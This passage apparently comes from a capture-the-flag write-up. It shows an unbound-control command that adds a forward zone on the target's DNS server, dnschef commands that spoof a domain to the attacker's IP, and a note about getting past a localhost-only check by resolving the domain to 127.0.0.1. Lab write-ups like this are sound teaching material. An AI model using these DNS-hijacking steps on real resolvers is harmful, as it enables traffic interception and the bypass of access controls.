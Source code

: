 ```bash
unbound-control -c unbound.conf -s 10.10.10.232 forward_add +i <Domain_name> <DNS_server_IP>
```

![](screenshots/add-nbound-zone.png)

#### Setup fake dns and http server

```bash
dnschef -i <VPN_IP> --fakedomains <Domain_name> --fakeip <VPN_IP>
```

![](screenshots/dnschef-tun0.png)

Get DNS quary but don't get any http request. Server response with "Only local hosts are allowed". That means there are some security measures in the server that checks if dns resolves localhost or not.

Replacing domain ip to localhost `127.0.0.1`

![](screenshots/dnschef-l0.png)
